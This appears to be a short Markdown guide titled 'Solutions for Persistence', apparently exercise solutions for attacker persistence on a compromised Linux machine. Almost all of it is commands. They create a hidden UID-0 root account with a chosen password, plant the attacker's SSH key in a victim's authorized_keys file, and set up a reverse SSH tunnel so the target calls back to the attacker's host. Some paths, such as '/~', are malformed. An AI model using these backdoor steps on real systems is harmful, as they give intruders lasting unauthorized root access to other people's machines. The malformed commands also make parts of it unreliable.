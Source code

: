 # Solutions for Persistence

### Add a root user

> sudo useradd -ou 0 -g 0 user_you_want_to_create

> sudo passwd user_you_created

> echo password_you_created | passwd --stdin user_you_created 

Now you have created a new root user!

### SSH Backdoor

You'll need to generate public/private keypair for the ssh to work. You can generate your keypair by giving the command:
> ssh-keygen

It will generate a private key __.ssh/id_rsa__ and a public key __.ssh/id_rsa.pub__.

Copy the public key to the target machine's __.ssh/authorized_keys__ file, it can be usually found in the home directory. This can be done by

> scp ~/.ssh/id_rsa.pub TARGET_USER@TARGET_IP:/~/.ssh/

And now in the target machines, give the command:
> cat ~/.ssh/id_rsa.pub >> authorized_keys 

This will copy the the public key into the authorized_keys file.

Remember to set the right permissions for the file, so you won't get any weird failures in the future.

> chmod 700 /~

> chmod 700 /~/.ssh

> chmod 600 /~/.ssh/authorized_keys

Now you can ssh to the target machine!
> ssh -i ~/.ssh/id_rsa victim@victimip

If this fails, you can try to create reverse SSH tunnel, and get the target machine to  contact you.

> ssh -N -R 9999:localhost:22 your_machine@your_ip

-N flag sets up the tunnel without promting a shell on your machine.

On your machine, check that your machine is listening the port 9999 by using the command:
> netstat -l

If everything is good, run on your machine:
>ssh -i ~/.ssh/id_rsa target_user@localhost -p 9999 

Reverse shell backdoor set up!

